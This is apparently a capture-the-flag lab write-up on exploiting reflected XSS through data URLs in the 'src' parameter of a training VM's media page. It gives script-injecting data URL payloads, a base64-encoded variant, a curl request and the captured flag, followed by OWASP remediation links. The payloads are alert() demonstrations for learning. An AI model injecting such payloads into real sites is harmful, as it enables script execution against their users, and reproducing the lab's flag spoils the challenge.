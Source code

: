 # Cross Site Scripting (XSS) - Data URLs

In the first section of the home page, an image redirect to [the location](http://192.168.56.101/?page=media&src=nsa) where an `object` tag specifies the URL of NSA logotype, via `data` attribute.

The value of `data` attribute change accordingly the value GET parameter `src` in the URL.

Using special format, called [data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs), in `src` allow to embed small inline data in HTML document.

<details>
<summary>Embed a text file</summary>

```
data:text/html,<h1 style="font-size:75px; background-color:red">Hello World!</h1>
```
</details>

<details>
<summary>Embed an image</summary>

```
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGQAAABkCAYAAABw4pVUAAAAo0lEQVR42u3RAQ0AAAjDMO5fNCCDkG4SmupdZwoQIAICRECACAgQAQECBIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACAgQIEAEBIiAABGQ7w2x48edS3GF7AAAAABJRU5ErkJggg==
```
</details>

Not only any data can be passed, but script can be used to this which allow execution of the code, as shown on the [example](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)
<img width="800" alt="image" src="https://user-images.githubusercontent.com/46742040/202879013-06386e15-be43-4894-9a3c-c3630a569a0e.png">
<details>
<summary>Embed a scipt</summary>

```
data:text/html,<script>alert('42 - The answer to life, the universe and everything')</script>
```
</details>


By tring base64 encoded string for the `src` paramter, with [appropriate syntax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs#syntax), the following address will give the flag

```
$ echo -n '<script>alert('hi');</script>' | base64
PHNjcmlwdD5hbGVydChoaSk7PC9zY3JpcHQ+

$ curl http://{IP_ADDR}/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGknKTs8L3NjcmlwdD4\=
[...]
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
[...]
```

# Remediation
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/
